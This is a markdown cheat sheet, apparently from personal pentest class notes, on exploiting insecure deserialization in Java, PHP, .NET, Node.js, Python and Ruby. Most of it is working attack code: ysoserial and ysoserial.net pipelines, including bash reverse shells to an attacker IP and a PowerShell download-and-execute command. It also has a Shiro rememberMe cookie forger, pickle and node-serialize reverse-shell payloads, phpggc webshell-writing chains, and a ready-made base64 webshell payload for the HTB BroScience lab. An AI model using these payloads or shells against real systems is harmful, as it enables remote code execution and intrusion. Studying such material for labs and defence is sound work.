

# Deserialization Attacks

#Deserialization #RCE #Java #PHP #DotNet #Python #Ruby #NodeJS #WebAppAttacks #ysoserial #phpggc #marshalsec #ViewState #GadgetChains

## What is this?

Insecure deserialization enables object injection, property manipulation, or RCE via gadget chains when untrusted data is deserialized without validation. Covers Java, PHP, Python, Ruby, and .NET. Pairs with [[Web Attacks]], [[Server-Side Attacks]], [[Non-PHP Web App Attacks]].

---

## Tools

| Tool | Language | Purpose |
|---|---|---|
| [[Tools/Payloads & Shells/ysoserial\|ysoserial]] | Java | Gadget chain payload generation |
| [[Tools/Payloads & Shells/phpggc\|phpggc]] | PHP | PHP gadget chain generation |
| [[Tools/Payloads & Shells/ysoserial.net\|ysoserial.net]] | .NET | .NET gadget chains + ViewState payloads |
| [[Tools/Payloads & Shells/marshalsec\|marshalsec]] | Java | Java unmarshalling exploit helper (Jackson, XStream, etc.) + JNDI/LDAP referral server |
| [[Tools/Payloads & Shells/SerializationDumper\|SerializationDumper]] | Java | Dump Java serialized objects in readable form |
| [[Tools/Web/Burpsuite\|Burp Suite]] | All | Deserialization Scanner / Freddy extensions (BApp Store) |
| `GadgetBuilder` | Java | Newer chain builder (2026) — merges ysoserial's 31 chains with ~29 others; revives chains on JDK 16+ (see note below) |

---

## Java Deserialization

Java's native serialization uses `ObjectInputStream.readObject()`. Deserializing a malicious object triggers gadget chains in classpath libraries.

### Identify

```bash
# Magic bytes: AC ED 00 05 (hex) / rO0AB (base64)
echo "rO0ABXNy..." | base64 -d | xxd | head
# 0000000: aced 0005 ...  ← Java serialized object

# Common locations:
# - Cookie: JSESSIONID (some frameworks), rememberMe (Apache Shiro)
# - HTTP headers: X-Auth-Token, X-Viewstate
# - POST body parameters (viewState, serializedData)
# - AMF (Adobe) streams, JMX RMI ports 1099/8686

# Shiro rememberMe cookie (uses Java serialization + AES)
# Look for: Set-Cookie: rememberMe=<base64>
curl -s -I "http://<target>/login" | grep -i "rememberme\|remember-me"
```

### ysoserial — Generate Gadget Chains

```bash
# Download — asset name is versioned per release; grab the "-all.jar" from the
# releases page (or build with `mvn clean package -DskipTests`). Example:
wget https://github.com/frohoff/ysoserial/releases/download/v0.0.6/ysoserial-all.jar -O ysoserial-all.jar
# (check https://github.com/frohoff/ysoserial/releases for the current version)

# List available payloads (gadget chains)
java -jar ysoserial-all.jar 2>&1 | head -50
# Commons Collections 1-7, Spring, Groovy, Clojure, BeanShell, etc.

# Generate payload — CommonsCollections6 (most universal)
java -jar ysoserial-all.jar CommonsCollections6 'id' > payload.ser

# With command containing spaces (use bash -c)
java -jar ysoserial-all.jar CommonsCollections6 'bash -c {echo,<b64cmd>}|{base64,-d}|bash' > payload.ser

# Base64 encode the b64 command (reverse shell):
echo -n 'bash -i >& /dev/tcp/<attacker-ip>/4444 0>&1' | base64 -w 0
# → bash reverse shell encoded

# Full pipeline:
B64=$(echo -n 'bash -i >& /dev/tcp/<attacker-ip>/4444 0>&1' | base64 -w 0)
java -jar ysoserial-all.jar CommonsCollections6 "bash -c {echo,${B64}}|{base64,-d}|bash" > payload.ser

# Common chains to try in order:
# CommonsCollections6 → CC5 → CC1 → CC2 → CC3 → CC4 → Spring1 → Spring2 → Groovy1
```

> [!warning] **ysoserial has been unmaintained since 2021.** Many of its chains rely on reflection into `java.*` internals, which JDK 16+ blocks by default (JEP 396 strong encapsulation). A chain that "should" work can fail with `InaccessibleObjectException` on a modern target — that is a tooling failure, not proof the target is patched. Confirm the target's Java version before ruling a chain out.

```bash
# Running ysoserial itself on a modern JDK — reopen the packages it reflects into
java --add-opens java.base/java.util=ALL-UNNAMED \
     --add-opens java.base/java.lang=ALL-UNNAMED \
     --add-opens java.base/java.lang.reflect=ALL-UNNAMED \
     --add-opens java.base/java.net=ALL-UNNAMED \
     --add-opens java.base/java.io=ALL-UNNAMED \
     -jar ysoserial-all.jar CommonsCollections6 'id' > payload.ser

# Simplest workaround: generate payloads under JDK 8/11 even if the target runs 17+
# (the serialized bytes are what matter, not the generating JVM)
```

> [!tip] Where ysoserial's chain set comes up dry against a recent target, `GadgetBuilder` (2026) bundles a substantially larger chain corpus and restores ~17 ysoserial chains for Java 16+. Worth reaching for before concluding the sink isn't exploitable.

### Send Payload

```bash
# Send as raw POST body
nc -lvnp 4444 &
curl -s -X POST "http://<target>/deserialize" -H "Content-Type: application/x-java-serialized-object" --data-binary @payload.ser

# Send in cookie (Apache Shiro rememberMe, etc.)
PAYLOAD=$(java -jar ysoserial-all.jar CommonsCollections6 'id' | base64 -w 0)
curl -s "http://<target>/" -H "Cookie: rememberMe=$PAYLOAD"

# Send via Burp — paste base64 payload into cookie/param field

# JMX RMI attack via ysoserial
java -cp ysoserial-all.jar ysoserial.exploit.RMIRegistryExploit <target> 1099 CommonsCollections6 'id'

# JNDI (Log4Shell pattern — for apps with Log4j ≤2.14.1)
# See dedicated Log4Shell notes
```

### Apache Shiro

```bash
# Shiro 1.2.4 and earlier — hardcoded AES key (kPH+bIxk5D2deZiIxcaaaA==)
# Shiro 1.2.5+ — default key changed but still symmetric encryption

# ShiroExploit / shiro_attack tools
git clone https://github.com/SummerSec/ShiroAttack2
# Or use ysoserial with Shiro key:

python3 << 'EOF'
import base64, os
from Crypto.Cipher import AES
import subprocess

# Known default Shiro key (kPH+bIxk5D2deZiIxcaaaA==)
KEY = base64.b64decode("kPH+bIxk5D2deZiIxcaaaA==")

# Generate ysoserial payload first
payload = subprocess.check_output([
    "java", "-jar", "ysoserial-all.jar", "CommonsCollections6", "id"
])

# Encrypt with AES CBC (Shiro uses AES-CBC with random IV)
BS = AES.block_size
pad = lambda s: s + (BS - len(s) % BS) * chr(BS - len(s) % BS).encode()
IV = os.urandom(BS)
encryptor = AES.new(KEY, AES.MODE_CBC, IV)
encrypted = encryptor.encrypt(pad(payload))
result = base64.b64encode(IV + encrypted).decode()
print(f"Cookie: rememberMe={result}")
EOF

# Detect Shiro by response header
curl -s -I "http://<target>/login" | grep -i "deleteMe\|rememberMe"
# Shiro responds with Set-Cookie: rememberMe=deleteMe on invalid cookie
```

### Automated Java Deser Scanning

```bash
# Burp Extensions: Java Deserialization Scanner (BApp Store)
# Sends common gadget chain payloads, checks for DNS/HTTP interactions

# Gadget Inspector — find gadget chains in custom JAR files
java -jar gadget-inspector.jar target-app.jar

# DeserLab — lab environment for testing
```

---

## PHP Deserialization

PHP `unserialize()` on untrusted data. Magic methods execute automatically on deserialization — they are the entry point of every PHP gadget chain.

### Magic Methods — Gadget Reference

Full list per the [PHP manual](https://www.php.net/manual/en/language.oop5.magic.php), grouped by how you'd use them.

**Entry points — fire automatically during/after `unserialize()`:**

| Method | Signature | Fires when |
|---|---|---|
| `__unserialize()` | `public function __unserialize(array $data): void` | During `unserialize()` — **PHP 7.4+, takes precedence over `__wakeup()`** |
| `__wakeup()` | `public function __wakeup(): void` | During `unserialize()` — **only if `__unserialize()` is not defined** |
| `__destruct()` | `__destruct()` | Object is garbage-collected — the most reliable entry point, fires even if nothing touches the object |

**Propagation gadgets — fire when the object is *used*, letting you pivot deeper into a chain:**

| Method | Signature | Fires when |
|---|---|---|
| `__toString()` | `public function __toString(): string` | Object used as a string (`echo $obj`, concatenation, `strlen()`) |
| `__invoke()` | `function __invoke(...$values): mixed` | Object called as a function — `$obj()` |
| `__call()` | `__call($name, $arguments)` | Inaccessible **instance** method invoked |
| `__callStatic()` | `__callStatic($name, $arguments)` | Inaccessible **static** method invoked |
| `__get()` | `__get($name)` | Reading an inaccessible property |
| `__set()` | `__set($name, $value)` | Writing an inaccessible property |
| `__isset()` | `__isset($name)` | `isset()` / `empty()` on an inaccessible property |
| `__unset()` | `__unset($name)` | `unset()` on an inaccessible property |
| `__clone()` | `__clone()` | Object is cloned |

**Rarely reachable from deserialization, but worth knowing:**

| Method | Fires when |
|---|---|
| `__construct()` | Object created — **not** called by `unserialize()`, which is why deserialization bypasses constructor validation |
| `__serialize()` / `__sleep()` | During `serialize()` — outbound only |
| `__set_state()` | `var_export()` re-import |
| `__debugInfo()` | `var_dump()` / `print_r()` |

> [!warning] **`__unserialize()` silently wins over `__wakeup()`.**
> Since PHP 7.4, if a class defines **both**, only `__unserialize()` runs — `__wakeup()` is ignored entirely. Hunting for `__wakeup` gadgets in a modern codebase will make you miss live chains, and can make you think a class is safe when its `__unserialize()` is the real sink. Same precedence applies outbound: `__serialize()` beats `__sleep()`.
>
> As of **PHP 8.5**, `__sleep()` and `__wakeup()` are **soft-deprecated** in favour of the newer pair — expect new code to use `__serialize`/`__unserialize` exclusively.

> [!tip]
> `__construct()` is **not** invoked by `unserialize()`. That's the core of PHP object injection: you get a fully-populated object that never passed through its own constructor, so any validation or initialisation living there is skipped.

```bash
# Grep a source tree for reachable gadget entry points
grep -rnE 'function\s+__(unserialize|wakeup|destruct|toString|invoke|call|get)\b' --include='*.php' .

# Find the sinks that make them reachable
grep -rnE '\bunserialize\s*\(' --include='*.php' .
```

### Workflow — you found a serialized blob, now what



**Order of operations. Do these in order — most people skip step 2 and waste an hour.**

1. **Confirm it's serialized and find the sink**
2. **Get the source if you can** — Path A is faster and more reliable than guessing chains
3. **Find a magic method that does something useful**
4. **Build the object**
5. **Verify it fired**

---

### Step 1 — Confirm it's serialized, find the sink

```bash
# Decode the candidate value
echo '<cookie_value>' | base64 -d

# Serialized PHP starts with a type token:
#   O:<len>:"<ClassName>":<n>:{...}   object
#   a:<n>:{...}                        array
#   s:<len>:"..."                      string
#   i:<int>;  b:0|1;  d:<float>;  N;   scalar / null
```

With source, find the sink directly — this is the single highest-value grep:

```bash
grep -rnE '\bunserialize\s*\(' --include='*.php' .
# Then read the surrounding function: what guards it? (session? auth?)
```

> [!warning]
> **Check the guard around the sink.** If it sits behind `isset($_SESSION['id'])` you must be *logged in* or the code returns before reaching `unserialize()` and your payload never fires. This is the most common reason a correct payload "does nothing".

---

### Step 2 — Find the gadget (Path A: you have source)

You need a magic method reachable from `unserialize()` that reaches a dangerous function.

```bash
# Every magic method in the codebase
grep -rnE 'function\s+__(unserialize|wakeup|destruct|toString|invoke|call|callStatic|get|set)\b' --include='*.php' .

# What do they reach? Look for sinks inside those methods
grep -rnE '\b(system|exec|shell_exec|passthru|popen|proc_open|eval|assert|include|require|file_put_contents|fwrite|fopen|unlink|file_get_contents|call_user_func)\s*\(' --include='*.php' .
```

Any of these inside a magic method is a chain:

| Sink reached | Gives you |
|---|---|
| `system` / `exec` / `passthru` / `popen` | Direct RCE |
| `eval` / `assert` / `call_user_func` | Direct RCE |
| `include` / `require` | LFI → RCE (log poison, `data://`, uploaded file) |
| `fwrite` / `file_put_contents` | **Arbitrary file write → drop a webshell** |
| `unlink` | File delete — DoS, or remove a lock/config to bypass logic |
| `file_get_contents` on a controlled path | File read / SSRF |

> [!tip]
> A file **write** is as good as RCE on a PHP box — write a shell into the web root. Don't skip past `fwrite`/`fopen` looking for `system()`.

---

### Step 3 — Build the object

The properties you set are just the object's fields. Get the **visibility** right or the payload silently fails:

| Declared as | Serializes the property name as | In the raw string |
|---|---|---|
| `public $x` | `x` | `s:1:"x";` |
| `protected $x` | `\0*\0x` | `s:4:"\0*\0x";` — length **+3** |
| `private $x` | `\0ClassName\0x` | length **+ strlen(class) + 2** |

> [!warning]
> **The null-byte trap.** `\0` here is a literal NUL byte, not a backslash-zero. Hand-editing a payload with private/protected properties in a text editor will corrupt it — the `s:` length must count those NUL bytes. Always generate the string with a script, and never hand-adjust lengths after editing a value.

**Reusable builder** — handles nesting, ints, arrays, and visibility:

```python
#!/usr/bin/env python3
import base64

def ser(v):
    if isinstance(v, str):   b = v.encode(); return f's:{len(b)}:"{v}";'
    if isinstance(v, bool):  return f'b:{int(v)};'
    if isinstance(v, int):   return f'i:{v};'
    if isinstance(v, float): return f'd:{v};'
    if v is None:            return 'N;'
    if isinstance(v, list):
        body = "".join(ser(i) + ser(x) for i, x in enumerate(v))
        return f'a:{len(v)}:{{{body}}}'
    if isinstance(v, dict):
        body = "".join(ser(k) + ser(x) for k, x in v.items())
        return f'a:{len(v)}:{{{body}}}'
    raise TypeError(v)

def obj(cls, props, visibility=None):
    """visibility: {'prop': 'private'|'protected'} — public is the default."""
    visibility = visibility or {}
    body = ""
    for k, v in props.items():
        vis = visibility.get(k, "public")
        name = k if vis == "public" else (f"\0*\0{k}" if vis == "protected" else f"\0{cls}\0{k}")
        body += ser(name) + ser(v)
    return f'O:{len(cls)}:"{cls}":{len(props)}:{{{body}}}'

# --- edit below ---
payload = obj("ClassName", {"prop": "value"})
print(payload)
print(base64.b64encode(payload.encode()).decode())
```

---

### Why any class is fair game (the key mental shift)

`unserialize()` does not *parse data into a declared type* — it **constructs an object of whatever class the bytes name**. The class name is embedded in the payload, so the variable's apparent type at the sink is irrelevant:

```php
$up = unserialize(base64_decode($cookie));   // "obviously" a UserPrefs
return $up->theme;                           // ...but you decide the class
```

**Any class loaded in that request's scope is reachable**, whether or not the feature using it is finished, reachable, or even referenced. That is the whole game: you're not tampering with values, you're choosing which constructor-equivalent runs.

```bash
# So the real question is: what's in scope at the sink?
# Trace the includes — anything pulled in on that request is fair game.
grep -rn "require\|include" --include='*.php' . | grep -v "//"
```

> [!tip] **Hunt the dead code.** Half-built and abandoned features are the richest gadget source — the classes still load, but nobody hardened them because nothing calls them. Tells:
> - `<!-- TODO: ... -->` markers in templates
> - A setter defined but called from nowhere
> - Orphaned assets (an unreferenced `dark.css`, an unused upload dir)
> - Classes in a shared `utils.php`/`functions.php` that the current UI never touches
>
> In BroScience the entire `Avatar`/`AvatarInterface` pair is dead code behind a `<!-- TODO: Avatars -->` stub — and it's the whole exploit.

---

### Worked example — HTB BroScience

Real chain, end to end — **verified working 2026-08-18**, webshell obtained. Shows the shape you're looking for.

**Step 0 — record the baseline.** Before crafting anything, grab the value the server mints itself. It confirms the format, the class name, and that nothing is signed:

```bash
echo 'Tzo5OiJVc2VyUHJlZnMiOjE6e3M6NToidGhlbWUiO3M6NToibGlnaHQiO30=' | base64 -d
# O:9:"UserPrefs":1:{s:5:"theme";s:5:"light";}
```

No HMAC, no signature, no integrity check anywhere on the cookie — so the value is fully attacker-controlled.

**The sink** (`includes/utils.php`) — note the session guard:

```php
function get_theme() {
    if (isset($_SESSION['id'])) {                       // <-- must be logged in
        ...
        $up = unserialize(base64_decode($up_cookie));   // <-- sink, cookie: user-prefs
        return $up->theme;
```

> [!warning]
> **The gate can be its own vuln chain.** On BroScience the sink needs a session, and the only route to one is registering an account then predicting its activation code — `generate_activation_code()` uses `srand(time())`, and the server publishes `time()` in the `Date:` response header. Two separate bugs, and the deserialization is unreachable without the first. When a sink is gated, treat the gate as a target rather than assuming the sink is out of reach. Predictable-token techniques: [[Class notes/HTB Academy/CWES Claude/Broken Auth|Broken Auth]].

**The gadget** — the app's only magic method:

```php
class AvatarInterface {
    public $tmp;
    public $imgPath;
    public function __wakeup() {                 // fires on unserialize
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}
class Avatar {
    public function save($tmp) {
        $f = fopen($this->imgPath, "w");         // attacker-controlled destination
        fwrite($f, file_get_contents($tmp));     // attacker-controlled content
    }
}
```

`file_get_contents()` accepts URLs and stream wrappers → arbitrary file write with arbitrary content → webshell in the web root. Both properties are `public`, so no NUL mangling.

```python
payload = obj("AvatarInterface", {
    "tmp":     "data://text/plain,<?php system($_GET[0]); ?>",
    "imgPath": "/var/www/html/sh.php",
})
```

```bash
# Log in first, then replace the user-prefs cookie and hit any page that renders the theme.
# navbar.php calls get_theme_class() -> get_theme(), and navbar is included everywhere,
# so essentially ANY authenticated page fires the gadget.
curl -sk "https://broscience.htb/index.php" \
  -b "PHPSESSID=<your-session>; user-prefs=<base64-payload>"

# Collect
curl -sk "https://broscience.htb/sh.php?0=id"
```

Ready-made for this box (`data://` variant, no listener needed):

```
TzoxNToiQXZhdGFySW50ZXJmYWNlIjoyOntzOjM6InRtcCI7czo0NDoiZGF0YTovL3RleHQvcGxhaW4sPD9waHAgc3lzdGVtKCRfR0VUWzBdKTsgPz4iO3M6NzoiaW1nUGF0aCI7czoyMDoiL3Zhci93d3cvaHRtbC9zaC5waHAiO30=
```

`data://` keeps the shell body inside the cookie — no listener needed. If `allow_url_include` is off, fall back to `http://<attacker-ip>/shell.php`, which only needs `allow_url_fopen` (on by default).

> [!note]
> `$_GET[0]` uses a **numeric** key deliberately. A bare `$_GET[cmd]` is a fatal `Error` on PHP 8, and quoting it collides with the surrounding quotes. See [[SQL Injection]] for the same trap in webshell writes.

---

### Step 4 — Verify it fired

Blind is common — the app may render nothing different.

```bash
# 1. Cheapest: aim the gadget at something observable
#    file write  -> request the file you wrote
#    file_get_contents / SSRF -> point it at your listener
nc -lvnp 8000

# 2. Error-based: a deliberately broken value often surfaces the class name
#    e.g. set imgPath to an unwritable path and watch for a PHP warning

# 3. Timing: if a chain reaches sleep/exec, compare response times
```

If nothing happens, work down this list — in practice it's almost always the first two:

1. **Not authenticated** — the sink sits behind a session check
2. **Wrong property visibility** — private/protected needs the NUL prefix
3. **String lengths wrong** — you edited a value by hand and didn't fix `s:<len>:`
4. **`__unserialize()` exists** and is shadowing the `__wakeup()` you targeted
5. **Class not in scope** at the point of the `unserialize()` call (no autoloader reach)

---

### Path B — no source, known framework (phpggc)

```bash
git clone https://github.com/ambionics/phpggc && cd phpggc

# Fingerprint first — cookies, headers, paths, 404 page all leak the framework
./phpggc -l | grep -i "laravel\|symfony\|yii\|magento\|wordpress\|guzzle\|monolog"
```

Picking a chain — the naming tells you what it does:

| Suffix | Effect | When to use |
|---|---|---|
| `/RCE*` | Command execution | First choice |
| `/FW*` | File write | RCE blocked, or you want a webshell |
| `/FD*` | File delete | Bypass a lock/config check |
| `/FR*` | File read | Blind targets — exfil config for creds |
| `/SQLI*` | SQL injection via the chain | Rare, situational |

```bash
./phpggc Laravel/RCE1 system 'id'
./phpggc Laravel/RCE13 system 'id' -b                       # -b = base64
./phpggc Guzzle/FW1 /var/www/html/sh.php '<?php system($_GET[0]);?>' -b
./phpggc Monolog/RCE1 system 'id' -b

# Send it
PAYLOAD=$(./phpggc Laravel/RCE13 system 'id' -b)
curl -s "http://<target>/vulnerable" -d "data=$PAYLOAD"
```

> [!tip]
> Chains are **version-specific**. `Laravel/RCE1` through `RCE15+` target different releases — if one fails that is not proof the sink is safe. Work through every chain for the framework before concluding it isn't exploitable, and check the framework version in `composer.lock` or `/vendor` if you can reach it.
## .NET Deserialization

.NET uses `BinaryFormatter`, `ObjectStateFormatter`, `LosFormatter`, `NetDataContractSerializer`, `JavaScriptSerializer`, `XmlSerializer`, and `Json.NET`. ViewState is a common vector.

### Identify

```bash
# ASP.NET ViewState — hidden form field
curl -s "http://<target>/page.aspx" | grep -i "viewstate\|__VIEWSTATE"
# Value is base64 — may be signed (MAC) or encrypted

# Decode ViewState (if unprotected)
echo "<viewstate_value>" | base64 -d | strings | head -20

# HTTP headers: X-Viewstate, X-EventTarget

# WCF / .NET Remoting — TCP 8686, named pipes
```

### ysoserial.net

```bash
# Download
wget https://github.com/pwntester/ysoserial.net/releases/latest/download/ysoserial.exe

# List gadget chains
mono ysoserial.exe -h
mono ysoserial.exe -l   # list all gadgets + formatters

# Generate payload for ViewState (BinaryFormatter)
mono ysoserial.exe -g TypeConfuseDelegate -f BinaryFormatter -c "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(\"http://<attacker-ip>/shell.ps1\")'"

# ViewState specific (no MAC key — old IIS)
mono ysoserial.exe -g ActivitySurrogateSelector -f LosFormatter -c "cmd /c whoami > C:\inetpub\wwwroot\out.txt"

# With MAC key known
mono ysoserial.exe -g TextFormattingRunProperties -f ViewState --validationkey=<key> --validationalg=SHA1 -c "cmd /c whoami"

# Json.NET gadget (common in APIs)
mono ysoserial.exe -g ObjectDataProvider -f Json.Net -c "cmd /c whoami"

# Common .NET chains: TypeConfuseDelegate, ObjectDataProvider, ActivitySurrogateSelector
```

### ViewState Attack (IIS/ASP.NET)

```bash
# Check if ViewState MAC validation is disabled (older apps)
# Try modifying any byte in ViewState — if no "Validation of viewstate MAC failed" → MAC disabled

# If MAC disabled — generate payload directly
mono ysoserial.exe -g TypeConfuseDelegate -f LosFormatter -c "cmd /c whoami > C:\inetpub\wwwroot\pwned.txt" -o base64

# Inject via __VIEWSTATE POST parameter
curl -s -X POST "http://<target>/page.aspx" -d "__VIEWSTATE=<b64_payload>&__VIEWSTATEGENERATOR=<value>&__EVENTTARGET=&__EVENTARGUMENT="

# ViewState MAC key hunting:
# web.config: <machineKey validationKey="..." decryptionKey="..."/>
# May be leaked via path traversal, XXE, SSRF
```

---

## Node.js / JavaScript Deserialization

Node.js `serialize-javascript` and similar libraries can execute embedded JS via `eval`.

```bash
# node-serialize package (CVE-2017-5941)
# Vulnerable to: {"rce":"_$$ND_FUNC$$_function(){return require('child_process').execSync('id').toString()}()"}

# Payload for node-serialize:
python3 -c "
import base64, json
payload = {
    'rce': '_\$\$ND_FUNC\$\$_function(){return require(\"child_process\").execSync(\"id\").toString()}()'
}
print(base64.b64encode(json.dumps(payload).encode()).decode())
"

# Reverse shell
python3 -c "
import base64, json
cmd = 'bash -c \"bash -i >& /dev/tcp/<attacker-ip>/4444 0>&1\"'
payload = {'rce': f'_\$\$ND_FUNC\$\$_function(){{return require(\"child_process\").execSync(\"{cmd}\").toString()}}()'}
print(base64.b64encode(json.dumps(payload).encode()).decode())
"
```

---

## Python Deserialization

### Pickle

`pickle.loads()` on untrusted data executes arbitrary code via `__reduce__`. Detection: base64 blob in cookie/POST parameter, error messages referencing `pickle`.

```python
# Generate RCE payload
import pickle, os, base64

class Exploit(object):
    def __reduce__(self):
        return (os.system, ('bash -c "bash -i >& /dev/tcp/<IP>/<PORT> 0>&1"',))

payload = base64.b64encode(pickle.dumps(Exploit())).decode()
print(payload)
```

```bash
# Send as cookie or POST parameter
curl http://target.com/ --cookie "data=<base64_payload>"
curl -X POST http://target.com/api -d "session=<base64_payload>"
```

> [!note] `subprocess` gives more control over args than `os.system` — use `(subprocess.check_output, (['bash', '-c', 'cmd'],))` if the payload needs to avoid shell escaping issues.

### YAML (PyYAML)

`yaml.load()` without `Loader=yaml.SafeLoader` executes `!!python/object/apply` constructors.

```bash
# RCE payload
!!python/object/apply:os.system ["id"]

# Subprocess (avoids shell quoting)
!!python/object/apply:subprocess.check_output [["id"]]
```

See [[Non-PHP Web App Attacks]] for full YAML deser coverage.

---

## Ruby Deserialization

### Marshal

`Marshal.load` on untrusted data executes gadget chains. Rails < 4.0 used Marshal by default for session cookies. Detection: binary blob in cookie that isn't JSON or base64-JWT.

```bash
# Check cookie type
echo "<cookie_value>" | base64 -d | file -
# "data" → potentially Marshal, not JSON

# Detect: \x04\x08 are the Marshal magic bytes (0x04 0x08)
echo "<cookie_value>" | base64 -d | xxd | head -1
```

> [!warning] `Marshal.dump(ERB.new(...))` then `Marshal.load` does NOT run the template — it only round-trips the ERB object. The code executes only if something later calls `.result` on it, which `Marshal.load` never does. RCE on `Marshal.load` alone requires a real **gadget chain** that ends in code execution during object reconstruction.

```ruby
# Use a published universal gadget chain — do NOT expect a bare Marshal.dump to RCE.
# elttam's universal RCE gadget works on stock Ruby (2.x–3.x, no extra gems):
#   https://github.com/GhostManager/... (search "elttam ruby universal gadget")
# The chain abuses Gem::Requirement / Gem::DependencyList etc. to reach a code sink.

# Skeleton (fill in from the published gadget for your Ruby version):
require 'base64'
payload = "<serialized gadget chain bytes>"    # generated by the universal-gadget script
puts Base64.strict_encode64(payload)
```

```bash
# Tools / references
# - elttam "Ruby 2.x/3.x universal deserialisation gadget" (Luke Jahnke) writeup + PoC
# - Vakzz / GadgetProbe style tooling for Ruby chains

# Modern Rails: don't craft Marshal payloads — if you leak SECRET_KEY_BASE, FORGE the
# signed/encrypted session cookie directly. Real tooling:
#   rails-session-decoder (Ruby)  — decode/encode Rails 4/5/6/7 cookies given the secret
#   or a rails console on the box: ActiveSupport::MessageEncryptor with the derived key
# https://github.com/Neohapsis/... (search "rails secret key base session")
```

> [!note] Modern Rails (4+) uses JSON-serialized, HMAC-signed cookies. Marshal deser is primarily a concern on legacy Rails 3.x or apps that explicitly use `Marshal.load`. If you have `SECRET_KEY_BASE`, forge the session directly rather than trying to craft Marshal payloads. See [[Non-PHP Web App Attacks]].

---

## Detection Tools

```bash
# Burp Extension: Java Deserialization Scanner
# Sends ysoserial payloads via Burp to all params, checks OAST callbacks

# Freddy (Burp Extension) — also covers .NET, PHP, Ruby, Python
# BApp Store → Freddy, Deserialization Bug Finder

# Nuclei — template paths shift between releases; search the installed set rather than
# hardcoding a path:
nuclei -u http://<target> -tags deserialization,java
nuclei -u http://<target> -t $(nuclei -tl 2>/dev/null | grep -i deserial | head -1)

# Check for common vulnerable libraries in response headers/errors
curl -s "http://<target>/" -I | grep -i "x-powered-by\|server"
curl -s "http://<target>/error" | grep -i "commons\|spring\|struts\|log4j\|shiro"
```

---

## Quick Reference

| Platform | Tool | Common Chains |
|----------|------|--------------|
| Java | ysoserial (JDK 8/11 to generate) | CC1-7, Spring1-2, Groovy1 |
| Java (JDK 16+ target) | GadgetBuilder, or ysoserial with `--add-opens` | Larger corpus; ysoserial chains often fail bare |
| Java (Shiro) | ysoserial + AES key | CommonsCollections |
| PHP | phpggc | Laravel/RCE1-9, Symfony/RCE1-4 |
| .NET | ysoserial.net | TypeConfuseDelegate, ObjectDataProvider |
| Node.js | manual | node-serialize IIFE |

```bash
# Magic bytes to spot Java deser
echo "<param>" | base64 -d | xxd | grep -c "aced 0005" && echo "Java serialized"

# Quick PHP unserialize check — look for O: in decoded params
echo "<cookie>" | base64 -d | grep "^O:"

# ysoserial quick test (ping OOB)
java -jar ysoserial-all.jar CommonsCollections6 'ping -c 1 <attacker-ip>' > ping.ser
curl -s -X POST "http://<target>/api" --data-binary @ping.ser
```

---

*Created: 2026-03-04*
*Updated: 2026-08-18*
*Model: claude-opus-5*
